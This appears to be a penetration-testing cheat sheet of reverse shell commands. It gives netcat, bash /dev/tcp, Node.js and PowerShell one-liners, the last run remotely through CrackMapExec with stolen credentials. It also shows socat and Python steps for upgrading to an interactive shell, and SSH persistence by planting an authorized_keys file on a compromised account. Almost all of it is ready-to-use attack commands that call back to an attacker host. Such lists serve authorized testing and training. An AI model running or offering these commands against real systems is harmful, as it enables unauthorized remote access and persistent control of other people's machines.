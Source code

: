 # Shells

## Netcat (nc)  

Some version of netcat do not have the `-e` switch avaiable.  On these you can pipe the commands into netcat.  

Server:
```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT  > /tmp/f
```
Client:  
`nc -lvp PORT`

## Bash  
`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`  

## Node.js  
`require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/192.168.49.170/80+0>%261"')`

## Crackmapexec with Powershell
```
crackmapexec smb -d . -u <user> -p '<password>' -X "$c = New-Object System.Net.Sockets.TCPClient('<LHOST>',<LPORT>);$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$c.Close()" <RHOST>
```
  
# Upgrading to Interactive Shells

## Simple upgrades  
Python  
`python -c 'import pty;pty.spawn("/bin/bash")'`  

Script  
```
exec script /dev/null      
Script started, file is /dev/null    
bash
```

Socat  
Listener:  
```socat file:`tty`,raw,echo=0 tcp-listen:<PORT>```

Victim:  
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LISTENER_IP>:<PORT>`  

## Upgrading to full interactive shell  
**In existing reverse shell**  
```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z   
```

Attacker  
```
stty raw -echo  
fg  
```
in zsh  
```
stty raw -echo; fg <enter><enter>
```

Victim  
```reset 
export SHELL=bash  
export TERM=xterm-256color  
stty rows <num> columns <cols>  
``` 
**SSH**  


1. Create a .ssh directory in the home directory of the compromised user.
2. Create a new keypair on the attacker machine using `ssh-keygen` 
3. Transfer the public key to the victim machine at save in the .ssh folder as `authorized_keys`
4. Apply the appropriate file permissions  
```
chmod 0700 /home/user/.ssh  
chmod 0644 /home/user/.ssh/authorized_keys
```
6. SSH into the system using the private key.
